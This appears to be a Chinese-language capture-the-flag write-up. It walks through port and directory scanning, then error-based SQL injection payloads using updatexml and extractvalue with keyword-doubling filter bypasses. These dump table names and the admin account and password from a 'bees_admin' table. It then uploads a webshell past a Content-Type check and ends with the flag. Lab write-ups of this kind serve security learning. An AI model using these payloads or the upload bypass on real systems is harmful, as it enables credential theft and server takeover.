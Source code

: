 1. 扫描端口，发现一网站

2. 目录扫描，发现后台登录

3. 进行万能密码登录，发现sql报错

4. 尝试进行报错注入

   ```mysql
   #数据库
   admin%27+or+updatexml(1,concat(0x7e,database(),0x7e),1)%23
   
   #表
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(table_name)+fr+from+om+information_schema.tables%0awhere%0atable_schema+i+in+n+(database())),0x7e),1)%23
   
   #表
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(column_name)+fr+from+om+information_schema.columns%0awhere%0atable_schema+i+in+n+(database())+and+table_name+i+in+n(%27bees_admin%27)),0x7e),1)%23
   
   #表里字段
   admin%27+or+updatexml(1,concat(0x7e,(seselectlect+group_concat(column_name)+fr+from+om+information_schema.columns%0awhere%0atable_schema+i+in+n+(database())+a+and+nd+table_name+i+in+n(%27bees_admin%27)),0x7e),1)%23
   
   #管理员用户账号密码
   admin%27+or+extractvalue(1,concat(0x7e,(seselectlect+gr+group+oup_concat(admin_name,admin_password)+fr+from+om+bees_admin),0x7e)) %23
   
   
   ```

![image-20241026130243665](assets/image-20241026130243665.png)

![image-20241026130441416](assets/image-20241026130441416.png)

![image-20241026130705118](assets/image-20241026130705118.png)

![image-20241026130935238](assets/image-20241026130935238.png)

![image-20241026131026803](assets/image-20241026131026803.png)

5. 后台上传图片处，上传shell

   ```
   经过测试，content-type修改为img/gif即可上传
   ```

   ![image-20241026132757298](assets/image-20241026132757298.png)

   ![image-20241026131759709](assets/image-20241026131759709.png)

6. 成功上传shell

   ![image-20241026131738570](assets/image-20241026131738570.png)
   
   ![image-20241026132824248](assets/image-20241026132824248.png)

![image-20241026131902429](assets/image-20241026131902429.png)

```
meetsec1{476e2dceb225678cd466fc3cd2b4c59c}
```

